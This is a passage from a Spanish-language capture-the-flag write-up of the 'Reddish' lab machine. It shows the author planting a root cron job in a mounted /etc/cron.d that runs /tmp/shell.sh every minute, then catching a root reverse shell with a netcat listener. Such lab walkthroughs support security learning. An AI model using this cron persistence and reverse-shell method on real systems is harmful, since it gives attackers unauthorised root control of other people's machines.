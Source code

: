 ```abap
```

### Y continuando en la montura vamos a /etc/cron.d/ y nos creamos una tarea que ejecute nuestra [shell.sh](http://shell.sh) cada minuto como root

```abap
root@backup:/mnt/Montura/etc/cron.d# ls
ls
mdadm
popularity-contest
root@backup:/mnt/Montura/etc/cron.d# echo "* * * * * root sh /tmp/shell.sh" > shell
<c/cron.d# echo "* * * * * root sh /tmp/shell.sh" > shell                    
root@backup:/mnt/Montura/etc/cron.d# cat shell
cat shell
* * * * * root sh /tmp/shell.sh
```

### Ponemos nuestra máquina a la escucha en el puerto que ocupamos en nuestra [shell.sh](http://shell.sh) y así tenemos una Reverse Shell de la máquina

```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #nc -nlvp 7777
listening on [any] 7777 ...
connect to [10.10.14.77] from (UNKNOWN) [10.129.229.102] 51216
bash: cannot set terminal process group (5602): Inappropriate ioctl for device
bash: no job control in this shell
root@reddish:~# whoami && hostname && id
whoami && hostname && id
root
reddish
uid=0(root) gid=0(root) groups=0(root)
```